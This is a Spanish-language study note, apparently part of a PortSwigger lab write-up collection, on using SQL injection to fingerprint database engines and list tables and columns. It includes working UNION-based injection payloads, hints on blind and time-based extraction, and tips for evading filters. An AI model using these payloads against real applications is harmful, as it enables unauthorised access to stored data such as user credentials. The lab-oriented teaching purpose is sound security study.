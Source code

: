 # Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

[Lab: SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft](2_SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.


[Lab: SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases](3_SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Oracle — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

---

## Consejos prácticos para labs y explotación

1. **Haz fingerprint antes de lanzar payloads ruidosos.** Si sabes que es MySQL puedes usar `GROUP_CONCAT`, `CONCAT`, `SLEEP` (MySQL) o `LOAD_FILE()`; si es PostgreSQL usarás `string_agg`, `pg_sleep`, etc.
2. **Si la app no muestra resultados directamente, usa `UNION` para inyectar resultados en una columna visible.** Primero determina número de columnas con `ORDER BY`/`UNION SELECT NULL,...`.
3. **Si no puedes usar `UNION`, recurre a inyección ciega (boolean/time-based)** y extrae información carácter a carácter con `SLEEP`/`pg_sleep`/`WAITFOR` según el motor.
4. **En Oracle, usa `all_tables` / `all_tab_columns`** para enumerar objetos; muchas apps en labs tienen estas vistas accesibles y devuelven resultados.
5. **Evita enviar consultas destructivas en entornos reales.** En labs puedes experimentar, pero en producción no modifiques ni borres datos sin autorización.

---

## Payloads conceptuales (ejemplos adaptables)

> Ajusta cada payload al parámetro vulnerable y a la estructura de la respuesta de la aplicación.

* **Detectar versión (UNION)**

  * `' UNION SELECT @@version--` (MySQL / SQL Server)
  * `' UNION SELECT version()--` (Postgres / MySQL)
  * `' UNION SELECT * FROM v$version--` (Oracle, si se devuelve)

* **Listar tablas (information_schema)**

  * `' UNION SELECT table_schema, table_name, NULL, NULL FROM information_schema.tables--`

* **Listar columnas de `Users`**

  * `' UNION SELECT column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='Users'--`

* **Oracle — listar tablas**

  * `' UNION SELECT owner, table_name, NULL FROM all_tables--`

---

## Notas sobre salida y formateo

* Muchas veces debes **concatenar columnas** o usar funciones de agregación (`GROUP_CONCAT`, `string_agg`) para que los resultados quepan en una sola columna que la página muestre.
* Ajusta el número de columnas y tipos en `UNION SELECT` para que coincida con la consulta original.
* Si la aplicación filtra caracteres (por ejemplo `'` o `--`), intenta técnicas de evasión (comentarios, codificaciones, funciones nativas del motor) o usa herramientas como Burp para manipular encodings.

---

## Ejercicios de laboratorio sugeridos (Practitioner)

* **Oracle — query de versión y listados:** encontrar si `SELECT * FROM v$version` devuelve datos y luego listar tablas con `all_tables`.
* **MySQL / SQL Server — identificar versión con `@@version` y luego enumerar tablas con `information_schema.tables`**.
* **PostgreSQL — `SELECT version()` y enumerar con `pg_catalog`**.

Incluye siempre evidencias (requests, responses, capturas) en el writeup.

---

